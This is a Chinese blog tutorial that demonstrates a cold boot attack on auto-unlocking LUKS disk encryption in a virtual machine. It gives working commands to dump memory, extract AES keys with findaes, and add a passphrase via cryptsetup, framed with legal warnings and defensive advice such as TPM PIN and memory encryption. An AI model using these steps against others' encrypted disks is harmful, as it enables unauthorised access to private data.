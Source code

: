 ```yaml
---
title: 针对 LUKS 自动解锁的冷启动攻击
date: 2024-03-31 08:00:00
updated: 2024-03-31 08:00:00
categories: 安全
tags:
- LUKS
- BitLocker
- 冷启动攻击
thumbnailImage: https://lfs.libmbr.com/assets/2024/03/31/8faba14b-a7a4-4a1e-8a23-037d97e48732.webp
---
```

对于系统卷全盘加密（FDE），任何不将分区解锁密钥存储在硬件安全设备（如 TPM）的自动解锁方法都不应认为是安全的  

即使使用硬件安全设备，仍需要额外保护（如 TPM PIN）和内存加密才能保证基本安全  
<!-- more -->

笔者之前见过一个 Linux 发行版，为了限制用户权限，系统安装时会自动将分区加密，防止用户修改系统文件，此加密使用 LUKS，解锁密钥在 ``grub-install`` 的过程中写入磁盘，开机时使用磁盘中的密钥自动解锁，如前面两段话所说，这种加密方法并不安全，“防君子不防小人”，可以直接从内存中提取密钥（因为开机后，系统若要正常运行，必须将 AES 密钥载入内存），这种从内存中提取密钥的破解方法被称为“冷启动攻击”  

{% alert warning %}
此文章仅展示 LUKS 自动解锁时可能存在的安全问题，其他磁盘加密机制如 BitLocker 也存在此问题，**请不要将此教程用于违法用途**  

若要保证数据安全，请配置 TPM PIN 或其他预验证机制，并启用内存加密。这可以有效防止冷启动攻击  

其中，内存加密可以防止攻击者读取你的内存获取明文密钥，预验证机制则在密钥写入内存前要求验证，防止攻击者将硬盘拆下，安装至其他计算机进行攻击  
{% endalert %}

因为这种加密的自动解锁方式安全性几乎为 0，所以写一篇破解教程进行演示  

{% alert info %}
**什么是冷启动攻击？**
冷启动攻击（cold boot attack）是在攻击者使用冷启动重新启动计算机后，通过技术手段转储内存，从内存中提取密钥或其他敏感信息
{% endalert %}

本教程演示的操作全部在本地搭建的 KVM 虚拟机完成，对于虚拟机来说，攻击成本极低，而对于实体机，攻击则需要准备液氮（用于冷却内存，防止数据快速丢失）和专用读取器  

## 准备
- Linux 机器做为宿主机
- 配置了 LUKS 的虚拟机，且开机时 grub 会在磁盘中读取密钥进行解密

## 操作过程
### 1 - 安装操作系统
创建虚拟机并安装操作系统，这个操作就不讲了，本文直接使用上面提到的“为了限制用户权限”的发行版演示，敏感内容均已打码  

![Proxmox VE create VM](https://lfs.libmbr.com/assets/2024/03/31/93aa31a6-4e26-41a5-b88e-a90f80eddd2d.webp)

### 2 - 分析分区结构
操作系统安装完成后，使用工具 cfdisk 查看磁盘分区表： 

![cfdisk](https://lfs.libmbr.com/assets/2024/03/31/e7946926-8cf1-41b2-bcc9-87f5bb279f0c.webp)

可以看到大致分区结构如下： 
- 前 32768 个扇区（16 MiB）保留
- 一个 vfat EFI 分区，存储 Grub EFI 文件  
- 一个 ext4 启动分区，存储 Grub 文件和操作系统内核  
- 一个 LUKS 加密卷

在未加密的启动分区可以找到 ``grub.cfg``，打开后确认是开机时自动解密系统分区，且未直接将解锁密钥存储在配置文件中  

![Grub menuentry](https://lfs.libmbr.com/assets/2024/03/31/8140fc65-8719-4533-b2e9-ae793ab10c3a.webp)

Grub 在启动时已经自动解锁系统分区，启动系统过程中，Grub 会将加密系统卷的 UUID（红线）、加密系统卷的密钥路径（黄线）和内核所在分区的 UUID（绿线）传递给内核，以便在 initrd 中正常解锁  

{% alert info %}
如果 Grub 没有配置密码，或者你可以更改 Grub 配置文件删除密码，你可以直接在 Grub Shell 中使用 ``cat`` 命令跟上密钥路径获取密钥  

但如果 Grub 设置了密码，同时引导分区加密，将无法使用此方法，只能使用冷启动攻击。冷启动攻击是一种通用的攻击方法  
{% endalert %}

### 3 - 转储内存
使用正常方法开机（此步骤被称为冷启动，这也是冷启动攻击一词的由来）  

等待操作系统完成磁盘解密后（出现登录屏幕），执行下面的操作：

- **对于虚拟机：**
    在宿主机上，休眠该虚拟机，创建的休眠文件包含内存转储
- **对于物理机：**
    使用液氮冷却剂为内存冷却，将内存拆下并安装到硬件转储器，创建内存转储

{% alert info %}
建议使用允许系统正常启动的最小内存，大多数情况 4 GiB 是足够的，大内存可能会导致转储文件很大  

正常情况下，转储文件的大小最大为内存大小的 3 倍，请保留充足的磁盘空间
{% endalert %}

Proxmox VE 默认配置中创建的休眠文件是一个 LVM 卷，如下：

```
Disk /dev/mapper/pve-vm--299--state--suspend--2024--03--31: 8.49 GiB, 9114222592 bytes, 17801216 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 65536 bytes / 65536 bytes
```

我们可以使用命令将 LVM 卷转换为文件：

```sh
dd if=/dev/mapper/pve-vm--299--state--suspend--2024--03--31 of=MEMORY.dmp
```

### 4 - 提取 AES 密钥
安装 ``findaes`` 工具，然后使用下面的命令提取转储文件中的 AES 密钥：  

```sh
findaes MEMORY.dmp
```

输出类似：
```
Searching MEMORY.dmp
Found AES-128 key schedule at offset 0x1bab8a9:
85 f1 dd c6 ea 68 09 6c d9 8d e8 39 65 8c 61 70
Found AES-128 key schedule at offset 0x1baba99:
a3 9e cb 7d 01 b3 fb 9e 4e 1a e0 a4 ec a3 7e a8
Found AES-128 key schedule at offset 0x129589f8:
b7 40 59 a2 0c c0 2e a3 0c 89 71 a3 16 ff 20 66
Found AES-256 key schedule at offset 0x1b564786:
ae 66 77 dd e6 e6 10 3c b5 f6 a2 a0 56 1a b1 df 41 f0 ce c3 d7 5b 4c ef c3 4a eb a7 e6 e8 2d 1e
```

如果有两个连续的 AES-128 密钥，请拼接为 AES-256 密钥（地址靠后的 + 地址靠前的），例如上面输出中 ``0x1baba99`` 和 ``0x1bab8a9`` 地址连续，拼接为 ``a3 9e cb 7d 01 b3 fb 9e 4e 1a e0 a4 ec a3 7e a8 85 f1 dd c6 ea 68 09 6c d9 8d e8 39 65 8c 61 70``  
同样的，如果有四个连续的 AES-128 或两个连续的 AES-256，则拼接为 AES-512  

然后将所有提取到的密钥整理一下，去掉空格，从上面的输出我们就得到了这三个密钥：
- AES-128 ``b74059a20cc02ea30c8971a316ff2066``
- AES-256 ``a39ecb7d01b3fb9e4e1ae0a4eca37ea885f1ddc6ea68096cd98de839658c6170``（由两个 AES-128 拼接）
- AES-256 ``ae6677dde6e6103cb5f6a2a0561ab1df41f0cec3d75b4cefc34aeba7e6e82d1e``

### 5 - 解密卷
将密钥转换为二进制写入文件：

```sh
echo a39ecb7d01b3fb9e4e1ae0a4eca37ea885f1ddc6ea68096cd98de839658c6170 | xxd -r -p > key.txt
```

然后尝试使用 AES 密钥为加密卷添加密码：

```sh
cryptsetup luksAddKey /dev/vda3 --master-key-file key.txt
```

如果提示 *Enter new passphrase for key slot:* ，则此 AES 密钥与分区解密密钥对应，继续设置密码即可  

如果密钥错误，则提示 *Volume key does not match the volume.* ，此时需要继续尝试其他密钥，直到解密成功  

如果有多个分区，则为每个分区尝试上面的步骤  

### 6 - 挂载
密码设置完成后，我们就可以直接使用密码解密 LUKS 卷并挂载，理论上此方法也完全适用于 BitLocker，但是笔者并未进行测试  

{% alert info %}
做好了对冷启动攻击的防护也不能保证数据绝对安全，因为除了冷启动攻击，针对磁盘加密还有许多其他类型攻击，比如 DMA 攻击，通常是将计算机的网卡或其他硬件更换为特殊读取器进行攻击，部分操作系统现在已经默认开启 DMA 攻击的内核防护  
{% endalert %}
